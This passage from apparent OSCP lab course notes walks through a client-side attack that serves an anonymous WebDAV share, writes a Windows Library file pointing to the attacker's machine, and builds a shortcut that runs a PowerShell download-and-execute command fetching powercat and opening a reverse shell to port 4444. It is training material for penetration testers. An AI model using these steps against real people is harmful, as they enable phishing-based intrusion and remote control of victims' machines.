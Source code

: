 ```
04:47:04.861 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
04:47:04.861 - WARNING : Share '/' will allow anonymous write access.
04:47:04.861 - WARNING : Share '/:dir_browser' will allow anonymous read access.
04:47:05.149 - INFO    : Running WsgiDAV/4.0.2 Cheroot/8.6.0 Python 3.10.7
04:47:05.149 - INFO    : Serving on http://0.0.0.0:80 ...
```

> Listing 33 - Starting WsgiDAV on port 80

Listing 33 shows that our WebDAV share is now served on port 80 with anonymous access settings.

Now, let's connect to WINPREP via RDP as *offsec* with a password of *lab* in order to prepare the Windows Library and shortcut files. Once connected, we'll open [*Visual Studio Code*](https://code.visualstudio.com/) and create a new text file on the desktop named **config.Library-ms**.

![[OffSec/OSCP/z. images/94c2b319d6eaeea2f60dd17d13c59a1f_MD5.jpg]]

Figure 8: Empty Library file in Visual Studio Code

Now, let's copy the Windows Library code we previously used in the *Client-Side Attacks* Module, paste it into Visual Studio Code, and check that the IP address points to our Kali machine.

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

> Listing 34 - Windows Library code for connecting to our WebDAV Share

Let's save the file and transfer it to **/home/kali/beyond** on our Kali machine.

Next, we'll create the shortcut file on WINPREP. For this, we'll right-click on the Desktop and select *New* > *Shortcut*. A victim double-clicking the shortcut file will download PowerCat and create a reverse shell. We can enter the following command to achieve this:

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
